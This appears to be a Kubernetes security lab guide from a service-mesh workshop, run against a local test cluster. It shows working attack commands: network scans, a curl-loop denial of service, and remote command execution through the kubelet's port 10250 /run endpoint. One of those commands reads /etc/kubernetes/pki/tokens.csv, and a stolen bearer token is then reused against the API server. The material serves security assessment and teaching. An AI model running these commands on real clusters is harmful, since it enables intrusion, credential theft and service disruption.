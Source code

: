 # Kubernetes Security Assessment

__References:__
* https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster
* https://raesene.github.io/blog/2017/07/23/network-tools-in-nonroot-docker-images
* https://medium.com/@airman604/kali-linux-in-a-docker-container-5a06311624eb
* https://github.com/raesene/alpine-noroot-containertools
* https://grafeas.io
* https://www.openpolicyagent.org
* https://k8guard.github.io

## 1) Identifying Attack Vectors

Below you can see different attack vectors for HelloWord v3 as target.

```sh
$ git clone https://github.com/chilcano/service-mesh-workshop
$ cd $(PWD)/service-mesh-workshop/labs

$ kubectl get pod,svc -n hello -o wide

## getting all system environment variables available in a POD
$ kubectl exec hello-v1-69c9685b5-dgnhq  -n hello -- printenv

$ kubectl exec hello-v3-7cb4968687-f99b8 -n hello -c helloworld -- curl -s localhost:5000/hello
Hello version: v3, instance: hello-v3-7cb4968687-f99b8

## introducing a ‘malicious’ container
$ kubectl create ns malicious
$ kubectl run malicious-curl --image=radial/busyboxplus:curl -ti --replicas=1 -n malicious
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nmap xyz

## calling an API from other namespace through its services
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np.hello.svc.cluster.local:5030/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np-e2e.hello.svc.cluster.local:5040/hello

## DoS attack
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ export HELLO_URL=hello-svc-np.hello.svc.cluster.local:5030
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ while true; do curl -s -o /dev/null http://$HELLO_URL/hello; done

## gathering information about the services living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np.hello.svc.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np-e2e.hello.svc.cluster.local

## gathering information about the pods living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.7                             # po/hello-v1-69c9685b5-dgnhq
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-7.hello.pod.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.8                             # po/hello-v3-7cb4968687-f99b8
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-8.hello.pod.cluster.local

## calling an API from other namespace directly from pod's IP addresses and open Ports
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.7:5000/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.8:5000/hello

## Deploying Kali Linux (security audit tools)
$ kubectl apply -f 05-security-assessment/kali-linux.yaml
$ export KALI_POD_NAME=$(kubectl get pod -l run=kali-linux -o jsonpath='{.items[0].metadata.name}')
$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# apt update -y
# apt install -y nmap curl netcat
```

## 2) Gathering information

### 2.1) Scanning internal network to get open ports:
```sh
$ kubectl cluster-info
Kubernetes master is running at https://192.168.99.100:8443

$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# ip address

# nmap -sT -v -n -p10250 192.168.99.0/24
...
PORT      STATE  SERVICE
10250/tcp closed unknown

Nmap scan report for 192.168.99.100
Host is up (0.00068s latency).

PORT      STATE SERVICE
10250/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 256 IP addresses (2 hosts up) scanned in 30.31 seconds
           Raw packets sent: 1920 (72.492KB) | Rcvd: 1896 (124.416KB)
```

### 2.2) Enumerate containers running in cluster

### 2.3) Exploring and getting information from containers and pods.

```sh
# curl -sk https://192.168.99.100:10250/runningpods/ | python -mjson.tool
```

```json
...
        {
            "metadata": {
                "creationTimestamp": null,
                "name": "hello-v3-7cb4968687-w7rkt",
                "namespace": "hello",
                "uid": "fd197309-3d9d-11e8-8164-0800273e1a0b"
            },
            "spec": {
                "containers": [
                    {
                        "image": "istio/proxy@sha256:51ec13f9708238351a8bee3c69cf0cf96483eeb03a9909dea12306bbeb1d1a9d",
                        "name": "istio-proxy",
                        "resources": {}
                    },
                    {
                        "image": "istio/examples-helloworld-v1@sha256:c671702b11cbcda103720c2bd3e81a4211012bfef085b7326bb7fbfd8cea4a94",
                        "name": "helloworld",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        },
...
```

Performing commands remotely through Kubernetes API Server:
```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=ls -la"
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=cat app.py"
```

## 2.4) Getting information about Docker Images stored in Docker Registry

```sh
$ kubectl get pod,svc -n kube-system | grep registry
po/registry-7lmvk              1/1       Running   0          22m
svc/registry               ClusterIP   10.96.231.4     <none>        80/TCP          22m

$ kubectl exec -it busybox-curl-745f8579cd-jw9q9 -- sh
root@busybox-curl-745f8579cd-jw9q9:/ ]$ curl -v registry.kube-system.svc.cluster.local/v2/_catalog
root@busybox-curl-745f8579cd-jw9q9:/ ]$ nslookup registry.kube-system.svc.cluster.local
Server:    10.96.0.10
Address 1: 10.96.0.10 kube-dns.kube-system.svc.cluster.local

Name:      registry.kube-system.svc
Address 1: 10.96.231.4 registry.kube-system.svc.cluster.local
```


## 3) Assessing the Kubernetes API Server security

```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ls -la /"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=whoami"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ps -ef"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=cat /etc/kubernetes/pki/tokens.csv"
```

Now, try it from out of cluster.
```sh
$ curl -k -X GET -H "Authorization: Bearer xyz..." https://192.168.99.100
```

## 4) Installing Security Tools as not root

```sh
$ kubectl apply -f labs/kube/03-ingress-sidecar/alpine-noroot-sec-tools.yaml
```
